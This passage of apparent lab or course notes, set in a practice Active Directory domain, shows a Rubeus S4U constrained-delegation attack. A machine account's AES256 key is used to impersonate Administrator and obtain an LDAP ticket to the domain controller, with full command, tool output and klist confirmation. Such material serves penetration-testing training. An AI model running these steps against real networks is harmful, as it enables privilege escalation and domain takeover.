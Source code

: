 `C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args s4u /user:dcorp-adminsrv$ /aes256:e9513a0ac270264bb12fb3b3ff37d7244877d269a97c7b3ebc3f6f78c382eb51 /impersonateuser:Administrator /msdsspn:time/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt`:
```
[SNIP]

[*] Action: S4U📌

[*] Using aes256_cts_hmac_sha1 hash: e9513a0ac270264bb12fb3b3ff37d7244877d269a97c7b3ebc3f6f78c382eb51
[*] Building AS-REQ (w/ preauth) for: 'dollarcorp.moneycorp.local\dcorp-adminsrv$'
[*] Using domain controller: 172.16.2.1:88
[+] TGT request successful!📌
[*] base64(ticket.kirbi):

[SNIP]

[*] Action: S4U📌

[*] Building S4U2self request for: 'dcorp-adminsrv$@DOLLARCORP.MONEYCORP.LOCAL'
[*] Using domain controller: dcorp-dc.dollarcorp.moneycorp.local (172.16.2.1)
[*] Sending S4U2self request to 172.16.2.1:88
[+] S4U2self success!
[*] Got a TGS for 'Administrator'🎭 to 'dcorp-adminsrv$🖥️@DOLLARCORP.MONEYCORP.LOCAL'🏛️
[*] base64(ticket.kirbi):

[SNIP]

[*] Impersonating user 'Administrator'🎭 to target SPN 'time📌/dcorp-dc🖥️.dollarcorp.moneycorp.LOCAL'
[*]   Final ticket will be for the alternate service 'ldap'
[*] Building S4U2proxy request for service: 'time/dcorp-dc.dollarcorp.moneycorp.LOCAL'
[*] Using domain controller: dcorp-dc.dollarcorp.moneycorp.local (172.16.2.1)
[*] Sending S4U2proxy request to domain controller 172.16.2.1:88
[+] S4U2proxy success!
[*] Substituting alternative service name 'ldap'📌
[*] base64(ticket.kirbi) for SPN 'ldap📌/dcorp-dc🖥️.dollarcorp.moneycorp.LOCAL':

[SNIP]

[+] Ticket successfully imported!🎟️
```

`klist`:
```
Current LogonId is 0:0x3a26cf

Cached Tickets: (1)

#0>     Client: Administrator🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: ldap📌/dcorp-dc🖥️.dollarcorp.moneycorp.LOCAL @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 2/19/2025 16:48:30 (local)
        End Time:   2/20/2025 2:48:29 (local)
        Renew Time: 2/26/2025 16:48:29 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```
